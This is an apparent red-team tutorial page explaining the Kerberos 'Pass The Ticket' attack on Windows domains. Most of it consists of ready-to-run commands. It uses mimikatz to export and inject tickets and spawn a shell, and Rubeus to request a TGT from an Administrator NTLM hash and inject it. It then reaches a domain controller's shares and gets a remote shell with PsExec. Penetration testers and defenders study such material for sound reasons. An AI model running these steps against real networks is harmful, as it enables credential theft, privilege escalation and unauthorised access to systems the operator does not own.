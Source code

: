 # Pass The Ticket

## <mark style="color:red;">Pass The Ticket</mark>

**In a pass the ticket attack access is gained to a resource of a system (for example the administrative shares) using a kerberos ticket that was generated or obtained from a compromised machine (TGT or TGS)**

{% hint style="warning" %}
PtT affects all windows platforms relying on kerberos.
{% endhint %}

run these in mimikatz:

```
kerberos::list
kerberos::list /export
```

we have the tickets that were saved inside the directory where we had the mimikatz executable.

![](<../../../.gitbook/assets/image (198).png>)

We go back to the mimikatz terminal. Here, we pass the ticket with the help of ptt module inside the Kerberos module followed by the name of the ticket that we want to pass.to perform the actions as the user that we passed the ticket for we decided to get a cmd as that user. This can be accomplished using the misc::cmd command as shown in the image given below.

```
kerberos::ptt ticket.kirbi
misc::cmd
```

![](<../../../.gitbook/assets/image (195).png>)

## <mark style="color:red;">Rubeus</mark>

[rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) is a C# toolset for raw Kerberos interaction and abuses.

we will use extract the tickets using Rubeus. This can be done with the help of the asktgt module. Although it is not so sneaky method it gets the work done. We need the domain name, User, Password Hash. When used normally will give the base64 encoded TGT ticket. But Let’s Pass the Ticket as well in the same step

```
Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```

or pass the ticket with kirbi file:

```
Rubeus.exe ptt /ticket:ticket.kirbi
```

now we have the ticket for user administrator and we can access shares:

```
dir \\overloadDC\\secret_shares
```

or get shell access:

```
PsExec.exe \\192.168.1.105 cmd.exe
```
